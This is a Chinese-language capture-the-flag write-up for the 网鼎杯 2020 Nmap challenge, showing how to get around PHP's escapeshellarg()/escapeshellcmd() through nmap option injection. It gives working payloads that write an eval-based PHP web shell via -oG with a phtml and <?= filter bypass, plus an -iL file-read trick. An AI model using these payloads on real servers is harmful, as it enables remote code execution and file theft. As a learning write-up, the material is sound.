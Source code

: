 # \[网鼎杯 2020 朱雀组]Nmap

## \[网鼎杯 2020 朱雀组]Nmap

## 考点

* Nmap使用
* escapeshellarg()+escapeshellcmd() 之殇
* 文件上传bypass
  * `phtml`绕过php黑名单
  * `<?=`绕过php黑名单

## wp

抓包可以看到请求的内容为`host=127.0.0.1`，没有其他东西。

* 传入`127.0.0.1' -o xxxx`，提示hostname是`127.0.0.1\`，访问xxxx无结果
* 传入`127.0.0.1 -o xxxx'`提示hostname是`127.0.0.1 -o xxxx\'`，访问xxxx无结果
* 传入`'127.0.0.1 -o xxxx '`，提示`Host maybe down`
* 访问xxxx，发现语句如下

```
nmap -Pn -T4 -F --host-timeout 1000ms -oX xml/47cae -o xxxx \127.0.0.1 \\
```

这就和[\[BUUCTF 2018\]Online Tool](buuctf-2018-online-tool.md)一样，那传入`127.0.0.1' -o xxxx`，应该访问`xxxx'`

使用同样的payload，提示`Hacker...`

```
'<?php eval($_POST["a"]);?> -oG shell.php '
```

测试发现过滤了php，`<?php`可以使用`<?=`绕过，写入的shell文件后缀可以使用`phtml`绕过

```
'<?=eval($_POST[1]);?> -oG shell.phtml '
```

蚁剑连接或者直接连接即可。

在Nmap中还有一个参数`-iL`是从文件中加载URL，也就是说，可以利用这一点进行文件读取

```
127.0.0.1' -iL /flag -o xxxx
```

![](<../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

## 小结

1. [PHP escapeshellarg()+escapeshellcmd() 之殇](https://paper.seebug.org/164/)
2. 类似[\[BUUCTF 2018\]Online Tool](buuctf-2018-online-tool.md)



